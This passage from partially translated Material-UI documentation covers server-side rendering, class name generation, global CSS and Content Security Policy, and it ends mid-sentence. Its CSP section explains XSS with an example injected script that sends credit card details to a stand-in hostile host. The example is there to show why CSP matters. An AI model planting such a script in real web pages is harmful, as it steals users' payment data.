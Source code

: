 [an official Gatsby plugin](https://github.com/hupe1980/gatsby-plugin-material-ui) that enables server-side rendering for `@material-ui/styles`. Consulte a página do plugin para obter instruções de configuração e uso.\n\nRefer to [this example Gatsby project](https://github.com/Foso/material-ui/blob/master/examples/gatsby) for an up-to-date usage example.\n\n### Next.js\n\nVocê precisa ter um `pages/_document.js` customizado, então copie [esta lógica](https://github.com/Foso/material-ui/blob/master/examples/nextjs/pages/_document.js) para injetar os estilos renderizados no lado do servidor no elemento `<head>`.\n\nPara um exemplo de uso atualizado, consulte [este projeto de exemplo](https://github.com/Foso/material-ui/blob/master/examples/nextjs).\n\n## Nomes de classes (Class names)\n\nOs nomes de classes são gerados pelo [gerador de nome de classe](/styles/api/#creategenerateclassname-options-class-name-generator).\n\n### Padrão\n\nBy default, the class names generated by `@material-ui/core/styles` are **non-deterministic**; you can't rely on them to stay the same. Vejamos a seguinte estilo como um exemplo:\n\n```js\nconst useStyles = makeStyles({\n  root: {\n    opacity: 1,\n  },\n});\n```\n\nIsto irá gerar um nome de classe como `makeStyles-root-123`.\n\nVocê tem que usar a propriedade `classes` de um componente para sobrescrever os estilos. A comportamento não determinístico dos nomes de classes permitem o isolamento de estilos.\n\n- Em **desenvolvimento**, o nome da classe é: `.makeStyles-root-123` seguindo esta lógica:\n\n```js\nconst sheetName = 'makeStyles';\nconst ruleName = 'root';\nconst identifier = 123;\n\nconst className = `${sheetName}-${ruleName}-${identifier}`;\n```\n\n- Em **produção**, o nome da classe é: `.jss123 ` seguindo esta lógica:\n\n```js\nconst productionPrefix = 'jss';\nconst identifier = 123;\n\nconst className = `${productionPrefix}-${identifier}`;\n```\n\n### Com `@material-ui/core`\n\nOs nomes de classe gerados dos componentes `@material-ui/core ` se comportam de maneira diferente. Quando as seguintes condições são atendidas, os nomes das classes são **determinísticos**:\n\n- Apenas um provedor de tema é usado (**Sem aninhamento de tema **)\n- A folha de estilo tem um nome que começa com `Mui` (todos os componentes de Material-UI).\n- A opção `disableGlobal` do [gerador de nome de clasee](/styles/api/#creategenerateclassname-options-class-name-generator) é `false` (o padrão).\n\nEssas condições são atendidas com a forma de uso mais comum de `@material-ui/core`. Por exemplo, esta folha de estilo:\n\n```jsx\nconst useStyles = makeStyles({\n  root: { /* … */ },\n  label: { /* … */ },\n  outlined: {\n    /* … */\n    '&$disabled': { /* … */ },\n  },\n  outlinedPrimary: {\n    /* … */\n    '&:hover': { /* … */ },\n  },\n  disabled: {},\n}, { name: 'MuiButton' });\n```\n\ngera os seguintes nomes de classe que você pode sobrescrever:\n\n```css\n.MuiButton-root { /* … */ }\n.MuiButton-label { /* … */ }\n.MuiButton-outlined { /* … */ }\n.MuiButton-outlined.Mui-disabled { /* … */ }\n.MuiButton-outlinedPrimary: { /* … */ }\n.MuiButton-outlinedPrimary:hover { /* … */ }\n```\n\n*Esta é uma simplificação da folha de estilo do componente `@material-ui/core/Button`.*\n\nA customização de campos de texto pode ser incômoda com a [API `classes`](#overriding-styles-classes-prop), onde você tem que definir a propriedade classes. É mais fácil usar os valores padrão, conforme descrito acima. Por exemplo:\n\n```jsx\nimport styled from 'styled-components';\nimport { TextField } from '@material-ui/core';\n\nconst StyledTextField = styled(TextField)`\n  label.focused {\n    color: green; 💚\n  }\n  .MuiOutlinedInput-root {\n    fieldset {\n      border-color: red; 💔\n    }\n    &:hover fieldset {\n      border-color: yellow; 💛\n    }\n    &.Mui-focused fieldset {\n      border-color: green; 💚\n    }\n  }\n`;\n```\n\n{{\"demo\": \"pages/styles/advanced/GlobalClassName.js\"}}\n\n## Global CSS\n\n### `jss-plugin-global`\n\nO plugin [`jss-plugin-global`](#jss-plugins) é instalado na predefinição padrão. Você pode usá-lo para definir nomes de classes globais.\n\n{{\"demo\": \"pages/styles/advanced/GlobalCss.js\"}}\n\n### Híbrido\n\nVocê também pode combinar nomes de classe gerados pelo JSS com nomes globais.\n\n{{\"demo\": \"pages/styles/advanced/HybridGlobalCss.js\"}}\n\n## Prefixos CSS\n\nO JSS usa recursos de detecção para aplicar os prefixos corretos. [Não fique surpreso](https://github.com/Foso/material-ui/issues/9293) se você não conseguir ver um prefixo específico na versão mais recente do Chrome. Seu navegador provavelmente não precisa disso.\n\n## Política de segurança de conteúdo (CSP)\n\n### O que é CSP e por que é útil?\n\nBasicamente, o CSP reduz os ataques de cross-site scripting (XSS) exigindo que os desenvolvedores incluam na whitelist as fontes de onde seus assets são recuperados. Esta lista é retornada como um cabeçalho do servidor. Por exemplo, digamos que você tenha um site hospedado em `https://example.com` o cabeçalho CSP `default-src: 'self';` permitirá todos os assets localizados em `https://example.com/*` e negar todos os outros. Se houver uma seção do seu site que é vulnerável ao XSS, onde a entrada do usuário de unescaped é exibida, um invasor pode inserir algo como:\n\n```html\n<script>\n  sendCreditCardDetails('https://hostile.example');\n</script>\n```\n\nEsta vulnerabilidade permitiria que o invasor executasse qualquer coisa. No entanto, com um cabeçalho CSP seguro, o navegador não carregará esse script.\n\nVocê pode ler mais sobre o CSP no [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).\n\n### Como se implementa o CSP?\n\nPara usar o CSP com Material-UI (e JSS), você precisa usar um nonce. Um nonce é uma string gerada aleatoriamente que é usada apenas uma vez, portanto, você precisa adicionar um middleware de servidor para gerar um em cada solicitação. JSS tem um